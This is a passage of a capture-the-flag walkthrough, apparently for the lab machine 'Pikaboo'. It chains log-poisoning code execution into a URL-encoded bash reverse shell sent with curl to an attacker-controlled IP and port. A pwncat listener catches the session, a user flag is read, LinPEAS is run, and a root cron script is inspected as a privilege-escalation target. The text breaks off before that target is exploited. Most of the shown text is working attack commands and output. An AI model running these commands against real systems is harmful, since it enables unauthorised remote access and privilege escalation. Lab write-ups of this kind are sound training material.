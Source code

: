 ![Screen Shot 2021-07-22 at 02.03.16.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/64D20610-93A4-4EB5-A853-E85747EA9FC6_2/Screen%20Shot%202021-07-22%20at%2002.03.16.png)

Execute linux command and we’d get the result in log. Now we have a working RCE. Let’s get a reverse shell. Setup a netcat listener before you execute next command. We need to URL encode the bash one-liner.

```other
⛩\> curl "10.129.95.157/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.31%2F1234%200%3E%261%22"
```

Check the listener and read user flag.

```other
⛩\> pwncat -l -p 1234
[09:07:49] Welcome to pwncat 🐈!                                                                        __main__.py:143
[09:07:53] received connection from 10.129.95.157:35522                                                      bind.py:57
[09:07:59] 10.129.95.157:35522: registered new host w/ db                                                manager.py:502
(local) pwncat$

(remote) www-data@pikaboo.htb:/var/www/html/admin_staging$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

(remote) www-data@pikaboo.htb:/var/www/html/admin_staging$ cat /home/pwnmeow/user.txt
58f1b61242b6b380b878f985faf279ad
```

# Privilege Escalation - User

```other
www-data@pikaboo:/home$ grep 'bash' /etc/passwd

root:x:0:0:root:/root:/bin/bash
pwnmeow:x:1000:1000:,,,:/home/pwnmeow:/bin/bash
postgres:x:110:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

Now we need to escalate our privs to ‘pwnmeow’ user. Let’s run ‘LinPeas’.

```other
(remote) www-data@pikaboo.htb:/tmp$ bash linpeas.sh

-------SNIP-------
* * * * * root /usr/local/bin/csvupdate_cron
```

A cron job is running with root privileges. So * * * * * means every minute of every hour of every day of every month and every day of the week. Let’s find more Information about this file.

```other
(remote) www-data@pikaboo.htb:/tmp$ file /usr/local/bin/csvupdate_cron
/usr/local/bin/csvupdate_cron: Bourne-Again shell script, ASCII text executable

(remote) www-data@pikaboo.htb:/tmp$ cat /usr/local/bin/csvupdate_cron
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```
